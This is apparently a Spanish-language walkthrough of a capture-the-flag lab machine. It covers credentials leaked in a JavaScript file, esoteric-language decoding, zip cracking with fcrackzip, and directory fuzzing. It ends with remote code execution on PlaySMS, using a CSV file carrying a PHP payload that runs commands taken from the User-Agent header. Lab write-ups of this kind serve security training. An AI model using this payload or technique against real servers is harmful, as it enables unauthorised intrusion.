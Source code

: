 ## Vulnerability Assessment {-}

### Credenciales en ficheros javascript y lenguaje esoterico {-}

En este caso no tocamos mas porque no queremos ser bloqueados. Si miramos el codigo fuente vemos que hay un fichero `login.js` que contiene las
credenciales.

Entramos las credenciales en la web `admin:superduperlooperpassword_lol` y conseguimos connectarnos y entramos en una pagina que contiene caracteres raros. Esto en concreto
se llama **Lenguaje esoterico**. Pero primero tenemos que buscar que lenguaje esoterico es en concreto.

Si buscamos en la web por `esoteric languages` encontramos una lista de 10 lenguajes esotericos en [esolangs](https://esolangs.org/wiki/Esoteric_programming_language). Uno de ellos nos 
llama la atencion porque es bastante parecido. Este seria el [Ook!](https://esolangs.org/wiki/Ook!). La diferencia es que cada **.** **?** **!** contiene un **Ook** delante.

Copiamos los caracteres en un fichero `data` y lo tratamos para que se paresca al `Ook!`

```bash
cat data | sed 's/\./Ook\./g' | sed 's/\?/Ook\?/g' | sed 's/\!/Ook\!/g' | xclip -sel clip
```

Copiamos el mensaje en la web [dcode.fr](https://dcode.fr). Buscamos el code `Ook!` y colamos el mensaje y decodificando nos da el mensaje **Nothing here check
**/asdiSIAJJ0QWE9JAS** que parece ser una routa.

Si vamos a la url `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS` vemos una nueva pagina con un nuevo mensaje que parece se **base64**.

```bash
curl -s -X GET "http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS" 
curl -s -X GET "http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS" | xargs
curl -s -X GET "http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS" | xargs | tr -d ' '
curl -s -X GET "http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS" | xargs | tr -d ' ' | base64
curl -s -X GET "http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS" | xargs | tr -d ' ' | base64 > data

file data
mv data data.zip
```

Aqui vemos que es un comprimido `.zip` y si le damos a `unzip data.zip` vemos que esta protegida por contraseña.


### Crackeando con fcrackzip {-}

```bash
fcrackzip -b -D -u -p /usr/share/wordlists/rockyou.txt data.zip
```

Aqui vemos que la contraseña es `password`.

Volmemos a descomprimir el fichero poniendole la contraseña y vemos un fichero `index.php`

```bash
cat index.php
```

vemos que nuevamente esta encryptada con caracteres del `a-f` y del `0-9` que seria Hexadecimal.

```bash
cat index.php | xxd -ps -r
```

y aqui parece ser nuevamente un base64.

```bash
cat index.php | xxd -ps -r > data
cat data | xargs
cat data | xargs | tr -d ' '
cat data | xargs | tr -d ' ' | base64 -d > data
cat data
```

Estamos nuevame frente a un lenguaje esoterico que parece se un **brainfuck**. Lo copiamos en la clipboard y lo decodificamos nuevamente en la web. En este
caso tiraremos de la web [tutorialspoint](https://www.tutorialspoint.com/execute_brainfk_online.php).

Pegamos el codigo y le damos a **Execute** y vemos el mensaje `idkwhatispass` que nos hace pensar en una contraseña. Intentamos ver si es la contraseña del usuario
admin del panel de authenticacion `Node-Red` pero no funcciona.

### Continuando analyzando las routas {-}

Si vamos a la url `http://10.10.10.111:9999/test` vemos un **php_info**. Lo primero aqui es siempre mirar las **disabled_functions**. No parece ser desabilitadas las
funcciones `exec()`, `shell_exec()` o `system()`.

Vamos a la url `http://10.10.10.111:9999/dev` y vemos un **403 Forbidden**. Como esta Forbidden intentamos ver si a routas validas bajo la routa `/dev` con **WFUZZ**.

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.111:9999/dev/FUZZ
```

y encontramos otras routas 
- test
- backup

 Si vamos a la url `http://10.10.10.111:9999/dev/test` nos descarga un fichero. y a la routa `http://10.10.10.111:9999/dev/backup` hay una nueva routa `/playsms`.

Miramos lo que hay en la url `http://10.10.10.111.9999/playsms` y vemos un panel de inicio de session **playsms**. Miramos si hay vulnerabilidades asociadas con searchsploit.

```bash
searchsploit playsms
```

Y vemos que hay exploits con Template Injection y Remote code execution.

Intentamos loggearnos con `admin:admin`, no va y intentamos el password que hemos encontrado antes. `admin:idkwhatispass` y en este caso funcciona.

### Explotando PlaySMS {-}

Buscamos un exploit que nos permite hacer RCE.

```bash
searchsploit playsms | grep -v -i metasploit | grep -i "remote code execution"
searchsploit -x 42044
```

Aqui el exploit nos dice que una vez loggeado con cualquier usuario, tenemos que ir a la url `http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list`,
y uploadear un fichero malicioso backdoor.csv

```csv
Name,Mobile,Email,Groupe code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,,
```

Aqui podemos ver que el exploit usa una cabezera para transmitir el comando que queremos ejecutar con la fuccion php `system()`. Esto quiere decir que tenemos que uzar
burpsuite para cambiar el user agent durante el upload.

Lanzamos Burpsuite y interceptamos el envio del fichero backdoor.csv. Cambiamos el User-Agent con `whoami`, Forwardeamos la peticion y en la web podemos ver
`www-data` en la columna Name.

